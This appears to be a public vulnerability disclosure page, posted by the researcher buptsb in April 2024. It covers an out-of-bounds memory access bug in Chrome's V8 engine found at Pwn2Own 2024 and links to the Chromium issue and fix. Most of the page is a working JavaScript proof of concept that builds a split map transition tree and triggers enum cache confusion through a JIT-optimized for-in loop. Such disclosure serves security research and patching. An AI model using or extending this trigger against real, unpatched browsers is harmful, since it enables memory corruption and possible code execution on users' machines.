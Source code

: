 author: [@buptsb](https://x.com/buptsb)
2024-04-03 16:06:14
https://x.com/buptsb/status/1775434620554850693

_This PoC is the FIRST public disclosure for this vulnerability._

# Info

Out of bounds memory access in V8. Reported by Edouard Bochin (@le_douds) and Tao Yan (@Ga1ois) of Palo Alto Networks, via Pwn2Own 2024 on 2024-03-22 
“earning $42,500 and 9 Master of Pwn points” https://twitter.com/thezdi/status/1770927914831274115
https://chromereleases.googleblog.com/2024/04/stable-channel-update-for-desktop.html
https://issues.chromium.org/issues/330760873
https://chromium-review.googlesource.com/c/v8/v8/+/5388435

Related to CVE-2023-4427 enum cache indices array out of bound access

## PoC
```
const object1 = {};
object1.a = 1;

const object2 = {};
object2.a = 1;
object2.b = 1;

const object3 = {};
object3.a = 1;
object3.b = 1;
object3.c = 1;
Object.defineProperty(object3, "d", {writable: false, enumerable: true, value: 1});

// create a split branch in map transition tree
const object4 = {};
object4.a = 1;
object4.b = 1;
object4.c = 1;
object4.d = 1;

for (let key in object3) { }

delete object3.d;

let escape;
function trigger(callback) {
  for (let key in object2) {
  	callback();
  	escape = object2[key];
  }
}

%PrepareFunctionForOptimization(trigger);
trigger(_ => _);
trigger(_ => _);
%OptimizeFunctionOnNextCall(trigger);

trigger(_ => {
	object4.c = 1.1;
	for (let key in object1) { }
});

// %SystemBreak();
```

<!-- ##{"timestamp":1712131574}## -->